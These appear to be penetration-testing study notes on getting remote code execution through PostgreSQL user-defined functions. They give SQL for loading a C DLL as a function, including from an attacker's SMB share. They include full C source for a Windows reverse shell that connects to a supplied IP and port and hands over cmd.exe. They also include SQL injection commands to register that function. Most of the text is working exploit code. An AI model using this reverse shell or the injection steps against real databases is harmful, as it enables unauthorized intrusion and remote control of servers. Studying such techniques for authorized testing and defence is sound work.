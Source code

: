 # Reverse Shell 3: Postgres UDF

May be possible to load database extension to define SQL functions to gain remote code execution. In this case, we can use **Postgres User-Defined Functions (UDF).** 

Postgres Command to load extension: 

```sql
CREATE OR REPLACE FUNCTION <NAME> (<Attribute types>) RETURNS void AS <filepath>, <functionname)> LANGUAGE C STRICT;
--The filepath can be a path on a SMB share
--Function name refers to the name of the relevant function in the dll file

CREATE OR REPLACE FUNCTION test(text, integer) RETURNS void AS $$C:\awae.dll$$, $$awae$$ LANGUAGE C STRICT;

-- To trigger the function:
SELECT test($$calc.exe$$, 3);
```

Compiled extension must define **appropriate Postgres structure** (magic block) to ensure that dynamic library file is not loaded into an incompatible server. This would lead to the loading process failing if the target library does not have the magic block. 

- Checking for duplicate functions: Run `\dt <functionname>` to check whether there already exists a function with that name. Function can be dropped with `DROP FUNCTION test(text,integer);`
- In Visual Studio, can use Build —> Build Solution to compile the DLL. By default, the build is saved to `C:\Users\<user>\source\repos`
- To test a new modification, stop the service (`net stop "Applications Manager"`) and delete the DDL file before restarting the service.

## Postgres Reverse Shell

```c
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include <winsock2.h>
#include "utils/builtins.h"
#pragma comment(lib, "ws2_32")

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum connect_back(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(connect_back);

WSADATA wsaData;
SOCKET s1;
struct sockaddr_in hax;
char ip_addr[16];
STARTUPINFO sui;
PROCESS_INFORMATION pi;

Datum
connect_back(PG_FUNCTION_ARGS)
{

	/* convert C string to text pointer */
#define GET_TEXT(cstrp) \
   DatumGetTextP(DirectFunctionCall1(textin, CStringGetDatum(cstrp)))

	/* convert text pointer to C string */
#define GET_STR(textp) \
  DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

	WSAStartup(MAKEWORD(2, 2), &wsaData);
	s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

	hax.sin_family = AF_INET;
	hax.sin_port = htons(PG_GETARG_INT32(1));
	hax.sin_addr.s_addr = inet_addr(GET_STR(PG_GETARG_TEXT_P(0)));

	WSAConnect(s1, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

	memset(&sui, 0, sizeof(sui));
	sui.cb = sizeof(sui);
	sui.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
	sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE)s1;

	CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
	PG_RETURN_VOID();
}
```

## SQL Injection Commands

Creating UDF function SQL command:

```sql
CREATE OR REPLACE FUNCTION rev_shell(text,integer) RETURNS VOID AS 
$$\\\\<ip>\\rev_shell.dll$$, $$connect_back$$ language c strict
```